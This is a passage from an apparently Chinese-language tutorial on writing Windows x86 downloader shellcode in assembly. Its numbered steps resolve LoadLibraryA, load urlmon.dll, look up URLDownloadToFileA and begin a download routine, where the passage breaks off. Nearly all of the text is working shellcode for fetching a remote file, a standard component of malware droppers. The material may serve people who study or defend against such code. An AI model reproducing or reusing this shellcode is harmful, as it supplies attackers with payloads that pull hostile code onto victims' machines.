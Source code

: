 ```
```
3. 使用GetProcAddress确定LoadLibrary函数地址
```
;------------------------------------
;finding address of LoadLibraryA()
xor eax,eax
push eax
push 0x41797261
push 0x7262694c
push 0x64616f4c

push esp
push ecx

call edx

;------------------------
add esp,12

```
4. 使用`LoadLibrary`加载加载urlmon.dll
```
;-----------------------------

;LoadLibraryA("urlmon.dll")
xor ecx,ecx

push 0x41416c6c
mov [esp+2],byte cl
push 0x642e6e6f
push 0x6d6c7275

push esp
call eax

;-----------------------

add esp,12
```
5. 获得`URLDownloadToFileA`入口
```
;-----------------------
;finding address of URLDownloadToFileA()
xor ecx,ecx
push 0x42424165
mov [esp+2],byte cl
push 0x6c69466f
push 0x5464616f
push 0x6c6e776f
push 0x444c5255

push esp
push eax
call esi

;------------------------
add esp,20
push eax 
```
6. 开始下载文件
```
;URLDownloadToFileA(NULL,url,save as,0,NULL)
download:
pop eax
```
